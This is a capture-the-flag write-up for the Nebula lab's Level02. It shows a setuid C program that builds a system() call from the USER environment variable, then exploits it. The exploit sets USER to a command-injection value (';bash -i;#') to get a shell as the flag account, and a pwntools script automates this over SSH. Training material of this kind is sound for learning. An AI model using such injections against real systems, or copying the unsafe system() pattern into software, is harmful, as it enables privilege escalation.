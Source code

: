 # Level02

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
>
> To do this level, log in as the **level02** account with the password **level02**. Files for this level can be found in /home/flag02.

#### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

***

#### Solution

Looking at the source code above it is reading gid and uid of the running process and sets the real, effective, and saved GID/UID to those effective values. In short: it makes all three IDs identical to the current effective IDs. Next it is fetching the `USER` environment variable (Which we can control). After that it calls the shell to run the command. In this example it will run `/bin/echo <USER> is cool`, so the program prints something like `hacker is cool` .

As it is fetching and running USER environment variable, what if USER contains something vulnerable, maybe reverse shell or something like this `USER=';bash -i;#'` .

```
level02@nebula:/home/flag02$ export USER=';bash -i;#'
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo ;bash -i;# is cool")

flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```

***

#### Python Automation

```python
from pwn import *
from sys import argv, exit

# Check if IP address is provided as an argument
if len(argv) < 2:
    sys.exit("IP address not found.")

# Establishes SSH connection with target IP address
session = ssh(host=argv[1], user='level02', password='level02')

# start a remote shell
terminal = session.shell()

# Changing USER environment variable
terminal.sendline("export USER=';bash -i;#'")

# Executing target binary
terminal.sendline('/home/flag02/flag02')
terminal.sendline("getflag")

terminal.interactive()
```

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

***
